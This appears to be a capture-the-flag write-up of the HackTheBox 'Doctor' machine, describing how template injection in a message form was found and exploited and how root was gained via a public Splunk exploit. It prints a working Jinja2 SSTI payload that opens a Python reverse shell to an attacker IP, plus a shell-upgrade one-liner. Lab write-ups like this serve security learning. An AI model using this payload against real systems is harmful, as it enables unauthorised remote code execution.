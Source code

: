 ```yaml
---
published: false
---
```

# HackTheBox Doctor 10.10.10.209

## Getting user.txt

Full nmap scan results (TCP):

![](/images/2021-02-02_12-47.png)

On the website on port 80, I found an email address, info@doctors.htb. I added the hostname to my /etc/hosts file.

After adding the site to my hosts file, and getting pissed off at Chrome browser which refused to show the site and kept sending me to a Verizon search page, I opened it in Firefox and found I was referred to the following site:

![](images/2021-02-02_12-55.png)

I checked for SQL injection in the login form and didn't find any, so I clicked the link to "Sign Up Now".

The messages reflected whatever you put into the title and content field back to the page. I tested for XSS and SSTI (Server Side Template Injection), but didn't find anything right away. For now I'm going to run FFUF to find new directories, and maybe come back to testing the messaging form later.

FFUF found an additional directory, /archive but it was a blank page.

I entered another message as seen below:

![](images/2021-02-02_13-21.png)

After entering the SSTI payloads in the above message, I went back to the /archive URL and found the following in the page source:

![](images/2021-02-02_13-23.png)

It looks like we have template injection, either Jinja2 or Twig. The Tplmap tool won't work here since the detection is on a different URL from the injection point. I had some recent experience playing around with SSTI on pentesterlab.com. After some manual trial and error, I finally got a reverse shell using the following payload:

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.19\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

![](images/2021-02-02_13-39.png)

Did you notice that the current user, web, is a member of the 'adm' group? Members of the adm group can usually view files in /var/log. I found a password in /var/log/apache2/backup file:

![](images/2021-02-02_14-02.png)

I already know there is a user named 'shaun' by looking at the /home directory. I got the user.txt flag by su shaun and using the password found in the backup file:

![](images/2021-02-02_14-04.png)

I then upgraded my shell using the following:

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

After looking for the obvious, includeing 'sudo -l' to see if I can use sudo, I decided to circle back to Splunk which was found earlier running on port 8089.

After doing some searching, I find the following exploit: https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2

Run the exploit:

![](images/2021-02-02_14-56.png)

Catch a root shell:

![](images/2021-02-02_14-57.png)

